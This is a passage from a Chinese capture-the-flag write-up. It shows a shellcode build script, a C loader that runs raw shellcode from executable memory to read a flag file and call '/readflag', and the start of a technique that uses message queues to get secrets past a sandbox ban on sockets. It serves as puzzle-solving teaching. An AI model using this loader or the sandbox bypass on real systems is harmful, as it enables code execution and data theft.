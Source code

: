 将其编译，并提取字节码：
```
#!/bin/bash
nasm -f elf32 -o shellcode.o shellcode.asm
ld -melf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

放到main.c里：
```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "\x81\xec\xff\x00\x00\x00\xb8\x2f\x66\x6c\x61\x89\x04\x24\xb8\x67\x31\x00\x00\x89\x44\x24\x04\xb8\x05\x00\x00\x00\x31\xc9\x31\xd2\x89\xe3\xcd\x80\x81\xc4\xff\x00\x00\x00\x89\xc3\xb8\x03\x00\x00\x00\xba\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\x89\xe1\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x02\x00\x00\x00\x89\xe1\xcd\x80\x81\xc4\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\xb8\x2f\x72\x65\x61\x89\x04\x24\xb8\x64\x66\x6c\x61\x89\x44\x24\x04\xb8\x67\x00\x00\x00\x89\x44\x24\x08\xb8\x0b\x00\x00\x00\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x81\xc4\xff\x00\x00\x00\xc3";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{

    LPVOID buffer = VirtualAlloc(NULL, 8192, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memset(buffer, 0, 8192);

    void (*pcode)() = (void (*)())buffer;

    memcpy(buffer, shellcode, sizeof(shellcode));
    pcode();

    return 0;
}
```
编译上传，即可获得flag。

## 0x05 看不见的彼方

这里分析源码，发现socket系统调用虽然被ban了，但是我们还有消息队列呀，两个进程只要使用同一个key即可访问同一个消息队列。

A.c将secret放到消息队列里：
```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <sys/msg.h>
#include <errno.h>
 #include<fcntl.h>

#define MAX_TEXT 512
struct msg_st
{
	long int msg_type;
	char text[MAX_TEXT];
};
 
int main()
{
	struct msg_st data;
	char buffer[BUFSIZ];
	int msgid = -1;
 
	//建立消息队列
```
